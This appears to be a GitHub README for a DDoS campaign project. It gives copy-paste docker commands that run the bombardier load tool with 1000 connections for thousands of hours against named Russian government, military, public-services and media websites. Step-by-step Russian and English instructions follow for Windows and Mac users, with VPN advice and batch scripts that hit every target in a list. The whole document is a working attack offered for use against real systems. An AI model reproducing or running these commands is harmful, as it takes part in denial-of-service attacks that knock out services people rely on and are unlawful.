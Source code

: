 # bombardier
Fight agains propoganda

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

# Инструкция для пользователей Windows и Mac:
1. Установить Docker: https://www.docker.com/products/docker-desktop
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Найти в программах Windows Command Prompt и запустить от имени Администратора
6. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт)
7. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac ./run_all_docker.sh для целей из resources.txt (или ./run_all_docker.sh файл-с-целями)
8. Для выполнения с конкретными целями - Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер
9. Убедиться, что процесс пошёл
10. Ждать падения рашки


# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/almerico/bombardier/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till russia fall
